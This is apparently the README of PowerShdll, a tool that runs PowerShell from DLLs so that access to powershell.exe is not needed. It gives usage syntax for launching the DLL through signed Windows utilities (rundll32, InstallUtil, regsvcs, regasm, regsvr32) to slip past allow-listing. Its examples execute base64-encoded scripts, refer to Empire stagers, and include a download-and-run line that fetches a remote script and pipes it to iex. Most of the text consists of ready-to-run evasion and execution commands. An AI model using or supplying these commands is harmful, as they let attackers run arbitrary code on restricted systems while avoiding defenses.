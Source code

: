 # PowerShdll
Run PowerShell with dlls only.

Does not require access to powershell.exe as it uses powershell automation dlls.

PowerShdll can be run with: rundll32.exe, installutil.exe, regsvcs.exe, regasm.exe and regsvr32.exe.

## dll mode:

### Rundll32:
```
Usage:
rundll32 PowerShdll,main <script>
rundll32 PowerShdll,main -h      Display this message
rundll32 PowerShdll,main -f <path>       Run the script passed as argument
rundll32 PowerShdll,main -w      Start an interactive console in a new window (Default)
rundll32 PowerShdll,main -i      Start an interactive console in this console
If you do not have an interractive console, use -n to avoid crashes on output
```
### Alternatives (Credit to SubTee for these techniques):

```
1. 
    x86 - C:\Windows\Microsoft.NET\Framework\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=false /U PowerShdll.dll
    x64 - C:\Windows\Microsoft.NET\Framework64\v4.0.3031964\InstallUtil.exe /logfile= /LogToConsole=false /U PowerShdll.dll
2. 
    x86 C:\Windows\Microsoft.NET\Framework\v4.0.30319\regsvcs.exe PowerShdll.dll
    x64 C:\Windows\Microsoft.NET\Framework64\v4.0.30319\regsvcs.exe PowerShdll.dll
3. 
    x86 C:\Windows\Microsoft.NET\Framework\v4.0.30319\regasm.exe /U PowerShdll.dll
    x64 C:\Windows\Microsoft.NET\Framework64\v4.0.30319\regasm.exe /U PowerShdll.dll
4. 
    regsvr32 /s  /u PowerShdll.dll -->Calls DllUnregisterServer
    regsvr32 /s PowerShdll.dll --> Calls DllRegisterServer
```

## exe mode

```
Usage:
PowerShdll.exe <script>
PowerShdll.exe -h      Display this message
PowerShdll.exe -f <path>       Run the script passed as argument
PowerShdll.exe -i      Start an interactive console in this console (Default)
```
## Examples
### Run base64 encoded script
```
rundll32 Powershdll.dll,main [System.Text.Encoding]::Default.GetString([System.Convert]::FromBase64String("BASE64")) ^| iex
```
Note: Empire stagers need to be decoded using [System.Text.Encoding]::Unicode
### Download and run script
```
rundll32 PowerShdll.dll,main . { iwr -useb https://website.com/Script.ps1 } ^| iex;
```
## Requirements
 * .Net v3.5 for dll mode.
 * .Net v2.0 for exe mode.

## Known Issues

Some errors do not seem to show in the output. May be confusing as commands such as Import-Module do not output an error on failure.
Make sure you have typed your commands correctly.

In dll mode, interractive mode and command output rely on hijacking the parent process' console. If the parent process does not have a console, use the -n switch to not show output otherwise the application will crash.

Due to the way Rundll32 handles arguments, using several space characters between switches and arguments may cause issues. Multiple spaces inside the scripts are okay.

